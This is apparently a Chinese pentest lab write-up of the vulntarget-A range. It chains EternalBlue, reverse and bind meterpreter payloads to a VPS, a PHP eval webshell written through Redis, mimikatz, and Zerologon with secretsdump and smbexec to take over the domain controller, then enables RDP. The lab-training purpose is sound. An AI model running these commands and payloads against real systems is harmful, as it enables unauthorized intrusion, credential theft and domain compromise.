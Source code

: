 ```yaml
---
title: "vluntargetA靶场笔记"
slug: "vulntarget-A-notes"
description: "事一个简单的靶场"
date: 2022-04-24T22:08:10+08:00
categories: ["PENTEST"]
series: ["vulntarget"]
tags: ["渗透靶机"]
draft: false
toc: false
---
```


> 本机    192.168.110.131
>
> 靶机win7    192.168.110.129; 10.0.20.98
>
> 域用户win2016    10.0.20.98; 10.0.10.111
>
> 域控win2019    10.0.10.110

访问192.168.110.129的80web页面，是通达OA

/inc/expired.php页面获得版本信息

![image-20220324162505563](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220324162505563.png)

nmap扫一下，开了445的win7，试一下永恒之蓝

```bash
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

得到shell，看下网络信息

![image-20220324164533684](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220324164533684.png)

有一个内网ip 10.0.20.98

msf的不稳定，做进程迁移；上传npc做socks5代理

```bash
meterpreter > run post/windows/manage/migrate
meterpreter > upload /home/kali/t00ls/nps_client_win/npc.exe C:\\Users
npc.exe install -server=xxx -vkey=xxx
npc.exe start
```

```
vim /etc/proxychains4.conf
# proxy dns
socks5 ip port
```

另外传一个cs的🐎并上线

```bash
meterpreter > upload /home/kali/t3mp/cs1.exe C:\\Users
beacon > sleep 5
```

挂代理后扫描内网c段

```bash
proxychains4 nmap -Pn 10.0.20.98/24
```

发现10.0.20.99有redis，尝试redis未授权写shell（实际这里扫崩了，直接打的

更蛋疼的是kali安装不了redis-cli，各种换源都无解，只能把原来只代给局域网的再代给公网，连出来打

首先生成个msf🐎连给我自己的kali虚拟机，这里的坑点：两处的payload要严格一致（别多一个或少一个x64，另外lhost设为0.0.0.0才可以被代出去

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=vps_ip LPORT=port -f exe > msfr.exe
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 0.0.0.0
msf > set lport 2308
msf > run
```

然后在得到的shell里把之前注册好的npc取消注册后重新注册为公网的

```bash
npc.exe stop
npc.exe uninstall
npc.exe install -server=xxx -vkey=xxx
npc.exe start
```

和之前一样，改proxychains的配置文件（不复制了），windows用proxifier（也很简单）

2308 meterpreter

2309 socks5 win7 win7123

```bash
proxychains4 redis-cli -h 10.0.20.99
> config set dir "C:/phpStudy/PHPTutorial/WWW/"
> config set dbfilename tx.php
> set 1 "<?php @eval($_POST['ame']);?>"
> save
```

连蚁剑，cs上用代理转发上线 via 10.0.20.98，所以需要再前面把公网的代理换回去，再uninstall install 一次

注意实测pivoting->Listener这样生成的反向马并不能弹回来，原因未知；解决办法是生成Listener为beacon TCP的正向马，再在之前的beacon中connect 10.0.20.99，即可上线

![image-20220326114155490](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326114155490.png)

![image-20220326114119006](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326114119006.png)

mimikatz抓密码，得到非明文hash

上传msf正向🐎并连接

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=6698 -f exe > msfr2.exe
msf > set proxies socks5:192.168.110.131:8879
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/bind_tcp
msf > set lport 6698
msf > set rhost 10.0.20.99
msf > exploit
meterpreter > run post/windows/manage/migrate
```

但这里得到的session非常容易断，动不动就reason: died，只能手动把马和exploit多用几次

定位域控

```bash
run post/windows/gather/enum_domain
```

得到域和域控信息

![image-20220326163730199](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326163730199.png)

添加主机对10.0.10.*的路由

```bash
msf > bg
msf > sessions x
meterpreter > run post/multi/mamage/autoroute
```

nmap简单扫一下

```bash
proxychains4 nmap -sS -Pn 10.0.10.110
```

用cve-2020-1472域内提权


```bash
proxychains4 python3 cve-2020-1472-exploit.py win2019 10.0.10.110
proxychains4 python3 secretsdump.py vulntarget.com/win2019\$@10.0.10.110 -no-pass	# 得到administrator的hash
proxychains4 python3 smbexec.py -hashes <hash> administrator@10.0.10.110
```

开启远程桌面

```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

```bash
proxychains rdesktop 10.0.10.110
```

